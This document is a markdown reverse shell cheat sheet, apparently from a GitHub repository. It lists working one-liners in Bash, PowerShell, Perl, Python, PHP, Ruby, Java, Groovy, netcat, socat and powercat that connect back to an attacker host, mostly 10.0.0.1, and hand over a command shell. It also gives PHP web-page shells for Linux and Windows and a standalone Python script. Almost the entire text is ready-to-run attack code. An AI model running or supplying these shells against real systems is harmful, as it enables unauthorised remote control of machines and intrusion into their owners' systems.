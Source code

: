 # Reverse Shell Cheat Sheet
You can find them in a lot of places. Here are the one I could find here and there.

## One-liners

**Bash**

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


**PowerShell** 

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


**Perl**

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```

**Java**

```
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 1234
```

**Netcat without -e #1**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

**Netcat without -e #2**

```
nc localhost 443 | /bin/sh | nc localhost 444
```
 
**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:1234 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.1 -p 1234 -e cmd.exe
```

* * *
## Others

**Python**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.119.225",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).

**Powershell**

```
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
